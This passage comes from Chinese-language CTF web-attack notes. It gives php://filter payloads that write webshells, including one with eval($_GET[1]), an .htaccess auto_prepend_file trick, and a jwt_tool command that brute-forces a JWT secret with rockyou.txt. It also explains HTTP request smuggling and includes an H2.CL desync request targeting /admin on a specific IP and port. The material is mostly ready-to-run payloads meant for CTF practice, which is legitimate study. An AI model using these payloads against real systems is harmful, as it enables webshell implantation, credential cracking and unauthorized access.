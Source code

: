 ```php
content=php://filter/string.rot13|<?cuc cucvasb();?>|/resource=shell.php
```

```php
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=shell.php
```

```php
content=php://filter/string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+/../shell.php
```

- 第三种情况

```php
filename=.htaccess
content=php_value auto_prepend_file D:\\phpstudy_pro\\www\\flag.php%0a%23\
```
# JWT
爆破,jwt_tool在`CTF_TOOL`下

```bash
python .\jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJzdWIiOiI0OTI5MSIsImlhdCI6MTcwMDU0NzM5MSwiZXhwIjoxNzAxMTUyMTkxfQ.hKwliNI5OGbTrpcrxRZ8Bvq978ur4o483jmD2CFbbbhO5V9_3HHNTK6YZ9-YaE4lFOnTeRjYQkyKYsPprFAr0g -C -d D:\dict\wordlists\rockyou.txt
```

空算法攻击



## http请求走私
> HTTP请求走私漏洞是因为前端的反向代理服务器和后端的Web服务器，对同一个请求的理解不一致造成的。因此，针对同一个HTTP请求，不同的服务器可能会产生不同的处理结果，这样就产生了安全风险。


前后端对数据的结束位置有多个标头 `Content-Length` `Transfer-Encoding`来确定

> CL.TE：前端服务器使用Content-Length标头，而后端服务器使用Transfer-Encoding标头。
> TE.CL：前端服务器使用Transfer-Encoding标头，而后端服务器使用Content-Length标头。
> TE.TE：前端服务器和后端服务器都支持Transfer-Encoding标头，但是可以通过对标头进行某种方式的混淆来诱导其中一台服务器不对其进行处理


### HTTP2降级走私

#### H2.CL Desync
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231120003137.png)

```http
GET /admin HTTP/2
Host: 47.108.56.168:20231
Cookie: session=MTcwMDQwMzE0MHwzQkFoUVR6VGRNdXVoN1N6ckctMkIxVkRTd2lXU3Q0OG03bVZUd3FicWlaUG90by1WQUtWTmQyTWN4UXIyOUtDWld5ckhLUk9zcy05dEhyOVozUUd0T0VOVkpCcnBqY1h86mqqXvwUYQsIJ5OSSuJDIbysGI37BJ4sbfZC99ajuwo=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 8

AbcdGET /admin http/1.1: 
Host: 47.108.56.168:20231


```
